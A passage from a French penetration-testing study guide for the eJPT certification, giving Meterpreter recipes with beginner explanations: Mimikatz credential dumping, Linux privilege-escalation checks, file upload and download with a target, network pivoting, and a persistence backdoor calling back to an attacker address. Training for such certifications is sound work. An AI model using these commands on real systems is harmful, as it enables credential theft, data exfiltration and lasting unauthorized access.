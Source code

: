 **En clair, pour un débutant** : Vous utilisez un outil automatisé pour exploiter une faille identifiée et obtenir un accès au système cible.

8. **Extraction d'identifiants Windows**
```bash
meterpreter > load kiwi
meterpreter > creds_all
```
Cette séquence charge l'extension Mimikatz dans Meterpreter et extrait tous les identifiants.

**En clair, pour un débutant** : Vous récupérez les mots de passe stockés dans la mémoire de Windows, comme trouver un trousseau de clés pour d'autres systèmes.

9. **Élévation de privilèges Linux rapide**
```bash
sudo -l
find / -perm -u=s -type f 2>/dev/null
```
Ces commandes vérifient rapidement les vecteurs d'élévation de privilèges courants sur Linux.

**En clair, pour un débutant** : Vous cherchez des configurations mal sécurisées qui pourraient vous permettre de devenir administrateur sur le système.

10. **Transfert de fichiers**
```bash
# De l'attaquant vers la cible
meterpreter > upload /path/to/file C:\\destination\\
# De la cible vers l'attaquant
meterpreter > download C:\\path\\to\\file /destination/
```
Ces commandes permettent de transférer des fichiers entre votre machine et la cible.

**En clair, pour un débutant** : Vous déplacez des outils ou des données entre les machines, comme envoyer ou récupérer des documents importants.

11. **Pivoting réseau**
```bash
meterpreter > run autoroute -s 10.10.20.0/24
msf > use auxiliary/server/socks_proxy
msf > set SRVPORT 9050
msf > run
```
Cette séquence configure un pivot pour accéder à d'autres réseaux à travers une machine compromise.

**En clair, pour un débutant** : Vous utilisez une machine compromise comme pont pour atteindre d'autres machines qui ne sont pas directement accessibles depuis votre position.

12. **Persistance rapide**
```bash
meterpreter > run persistence -X -i 60 -p 443 -r 10.10.14.5
```
Cette commande établit un mécanisme de persistance sur la machine compromise.

**En clair, pour un débutant** : Vous installez une "porte dérobée" pour pouvoir revenir facilement sur le système même s'il redémarre.

## 11 bis. TryHackMe & Hack The Box : machines conseillées avant l'eJPT

